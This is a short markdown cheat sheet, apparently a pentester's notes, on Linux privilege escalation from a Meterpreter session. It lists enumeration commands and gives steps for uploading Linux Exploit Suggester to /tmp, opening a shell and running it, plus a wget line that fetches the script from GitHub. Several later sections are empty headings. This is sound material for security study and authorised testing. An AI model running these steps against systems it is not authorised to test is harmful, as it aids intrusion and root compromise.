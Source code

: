 ```yaml
---
icon: linux
---
```


# Linux

## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

## Enumeration

| Command                       | Description                                                                                                                                                                      |
| ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `getprivs`                    | see what privileges we have                                                                                                                                                      |
| <kbd>sysinfo</kbd>            | information about the system                                                                                                                                                     |
| `getuid`                      | Zero uid on linux is always the Root user                                                                                                                                        |
| <h4><code>sudo -l</code></h4> | The target system may be configured to allow users to run some (or all) commands with root privileges.                                                                           |
| <h4><code>Id</code></h4>      | <p>The <code>id</code> command will provide a general overview of the user’s privilege level and group memberships.</p><p><br></p>                                               |
| <h4><code>history</code></h4> | Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames. |

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**

{% stepper %}
{% step %}
### Opening temp directory

```bash
cd /tmp
```
{% endstep %}

{% step %}
### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  
```
{% endstep %}

{% step %}
### Opening shell&#x20;

```
meterpreter > shell
```
{% endstep %}

{% step %}
### Better shell

```
/bin/bash -i
```
{% endstep %}

{% step %}
### Give executable permissions

```bash
chmod +x <file>
```
{% endstep %}

{% step %}
### Execute

```bash
./file.sh
```
{% endstep %}

{% step %}
### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file
{% endstep %}
{% endstepper %}

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## LinPEAS&#x20;

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS" %}

&#x20;**Linuxprivchecker**\



{% embed url="https://github.com/linted/linuxprivchecker" %}

## Cron jobs

## SUID

## Weak Permisions

## SUDO Privileges

## NFS
